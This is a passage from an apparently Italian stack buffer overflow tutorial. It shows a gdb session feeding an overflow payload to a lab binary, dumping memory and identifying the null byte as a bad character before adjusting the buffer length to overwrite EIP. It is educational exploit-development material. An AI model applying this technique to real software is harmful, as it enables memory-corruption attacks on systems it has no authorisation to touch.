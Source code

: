 ```shell
(gdb) disas main

(gdb) break bowfunc # la funziona va trovata disas main

(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
/bin/bash: warning: command substitution: ignored null byte in input

Breakpoint 1, 0x56555551 in bowfunc ()

(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				  # |---> "\x55"s begin
0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>
```

Qui riconosciamo a quale indirizzo inizia il nostro "\x55". Da qui possiamo andare più in basso e cercare il punto in cui inizia il nostro CHARS.

```shell
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
												  # |---> CHARS begin
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

Vediamo dove finisce il nostro `\x55` e dove inizia la variabile `CHARS`. Ma se la osserviamo da vicino, vedremo che inizia con `\x01` invece che con `\x00`. Abbiamo già visto l'avviso durante l'esecuzione che il `null byte` nel nostro input è stato ignorato.

Possiamo quindi prendere nota di questo carattere, rimuoverlo dalla nostra variabile CHARS e regolare il numero del nostro `\x55`.

```shell
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
  CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
    EIP = "\x66" * 4
```
